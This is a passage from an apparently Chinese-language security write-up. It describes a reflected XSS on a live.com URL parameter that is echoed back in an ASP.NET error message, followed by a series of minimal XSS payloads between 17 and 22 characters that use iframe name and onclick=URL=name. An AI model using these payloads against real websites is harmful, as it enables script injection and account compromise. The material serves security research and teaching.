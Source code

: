 地址：

```
https://*.live.com/?param=><h1>XSSed</h1><!--

#!html
<!-- Version: "13.000.20177.00" Server: BAYIDSLEG1C38; DateTime: 2012/05/01 15:13:23 -->
<input type="hidden" value="MESSAGE: A potentially dangerous Request.QueryString value was detected from the client (param="><h1>XSSed</h1><!--").
SOURCE: System.Web FORM:" /> 
```

找出了 XSS 的原因是由错误消息引起的 XSS

然后通过攻击者自己构造的页面构造 XSS，并成功实现。

```
<iframe src="target" name="javascript:alert(1)">

```

（或者使用 JavaScript 的 window.open）

最终：作者通过 21 个字符实现 XSS（关于实现的方法请见上面的一些比较猥琐的利用元素标签）

代码为：

```
><i/onclick=URL=name>

```

当然 22 个字符也有很多方法(//后面为我们构造的代码开始) 20 Letters

```
<input type=hidden value=//><i/onclick=URL=name>

```

22 Letters

```
<input type=hidden value="//"><i/onclick=URL=name>">

```

17 Letters

```
<input type=text value= //onclick=URL=name>

```

![2013082023451443889_jpg.jpg](img/img16_u20_jpg.jpg)

![2013082023454387143_jpg.jpg](img/img17_u21_jpg.jpg)

## 0x04 挑战最”短”
